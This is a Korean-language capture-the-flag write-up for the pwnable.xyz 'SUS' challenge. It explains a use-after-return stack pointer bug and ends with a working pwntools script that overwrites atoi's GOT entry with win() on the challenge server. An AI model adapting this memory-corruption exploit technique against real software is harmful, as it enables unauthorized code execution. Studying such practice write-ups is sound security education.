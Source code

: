 # [pwnable.xyz] SUS

> Single User Storage

## The Bug

![image](https://github.com/user-attachments/assets/06b101a5-e7ee-4a2b-af4c-4fb51e707b91)

`create_user()`에서 지역 변수인 `name`의 주소를 `cur`에 넣는다. `create_user()`가 종료된 이후에 `cur`에 접근하면 더 이상 존재하지 않는 스택 프레임에 접근하게 된다.

## Exploit

`edit_usr()`에서 age를 입력받기 위해 `read_int32()`를 호출하는데, 이때 스택에 저장된 `cur`의 `name` 포인터를 덮어쓸 수 있다.

![image](https://github.com/user-attachments/assets/7996f4b1-9b5d-4bfa-85b7-bf6ecb8dbbc1)

![image](https://github.com/user-attachments/assets/c3a8cb74-37cb-4b7c-89cb-75251d89a808)

`name` 포인터를 임의의 주소로 덮어쓰면 그 주소에 임의의 `0x20`바이트 값을 입력할 수 있다. `atoi()`의 GOT에 `win()`의 주소를 넣으면 플래그를 획득할 수 있다.

```python
from pwn import *

r = remote("svc.pwnable.xyz", 30011)

sla = r.sendlineafter
sa = r.sendafter


def create_user(name, age):
    sla(b"> ", b"1")
    sa(b"Name: ", name)
    sla(b"Age: ", age)


def print_user():
    sla(b"> ", b"2")


def edit_user(name, age):
    sla(b"> ", b"3")
    sa(b"Name: ", name)
    sla(b"Age: ", age)


win = 0x400B71
atoi_got = 0x602068

create_user(b"a", b"1")
edit_user(b"a", b"1" + b"a" * 0xF + p64(atoi_got))
edit_user(p64(win), b"1")

r.interactive()
```

![image](https://github.com/user-attachments/assets/9f0af595-fe16-443c-93e3-659b85936852)
